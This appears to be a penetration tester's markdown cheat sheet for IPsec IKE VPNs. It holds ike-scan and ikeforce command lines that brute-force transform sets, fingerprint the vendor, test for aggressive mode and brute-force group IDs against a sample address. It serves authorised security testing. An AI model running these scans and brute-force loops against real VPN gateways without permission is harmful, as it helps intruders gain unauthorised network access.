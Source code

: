 # IPSec




## IKE

* [https://xakep.ru/2015/05/13/ipsec-security-flaws/](https://xakep.ru/2015/05/13/ipsec-security-flaws/)
* [https://book.hacktricks.xyz/pentesting/ipsec-ike-vpn-pentesting](https://book.hacktricks.xyz/pentesting/ipsec-ike-vpn-pentesting)
* [https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/cracking-ike-missionimprobable-part-1/](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/cracking-ike-missionimprobable-part-1/)
* [https://github.com/SpiderLabs/ikeforce](https://github.com/SpiderLabs/ikeforce)



### Get Transform Set

Using `ikeforce.py`:

```
$ sudo python ikeforce.py 10.10.13.37 -a
```

Using ike-scan via brute force. Generate list of all transform-sets:

```
$ for ENC in 1 2 3 4 5 6 7/128 7/192 7/256 8; do for HASH in 1 2 3 4 5 6; do for AUTH in 1 2 3 4 5 6 7 8 64221 64222 64223 64224 65001 65002 65003 65004 65005 65006 65007 65008 65009 65010; do for GROUP in 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18; do echo "$ENC,$HASH,$AUTH,$GROUP" >> trans-dict.txt; done; done; done; done
```

Brute force supported transform-sets:

```
$ while read t; do (echo "[+] Valid trans-set: $t"; sudo ike-scan -M --trans=$t 10.10.13.37) |grep -B14 "1 returned handshake" |grep "Valid trans-set" |tee -a trans.txt; done < trans-dict.txt
Or (for aggressive mode)
$ while read t; do (echo "[+] Valid trans-set: $t"; sudo ike-scan -M -A -P'handshake.txt' -n FAKEID --trans=$t 10.10.13.37) |grep -B7 "SA=" |grep "Valid trans-set" |tee -a trans.txt; done < trans-dict.txt
Or
$ sudo python ikeforce.py -s1 -a 10.10.13.37  # -s1 for max speed
```



### Get Vendor Info

Get information about vendor:

```
$ sudo ike-scan -M --showbackoff [--trans=<TRANSFORM-SET>] 10.10.13.37
```



### Test for Aggressive Mode

Test for aggressive mode ON:

```
$ sudo ike-scan -M -A -P -n FAKEID [--trans=<TRANSFORM-SET>] 10.10.13.37
```



### Brute Force Group ID

If no hash value is returned then brute force is (maybe also) possible:

```
$ while read id; do (echo "[+] Valid ID: $id" && sudo ike-scan -M -A -n $id --trans=<TRANSFORM-SET> 10.10.13.37) | grep -B14 "1 returned handshake" | grep "Valid ID" |tee -a group-id.txt; done < dict.txt
Or
$ sudo python ikeforce.py 10.10.13.37 -e -w wordlists/groupnames.dic -t <TRANSFORM-SET-IN-SEPARATE-ARGS>
```

Dictionaries:

* `/usr/share/seclists/Miscellaneous/ike-groupid.txt`
* `~/tools/ikeforce/wordlists/groupnames.dic`
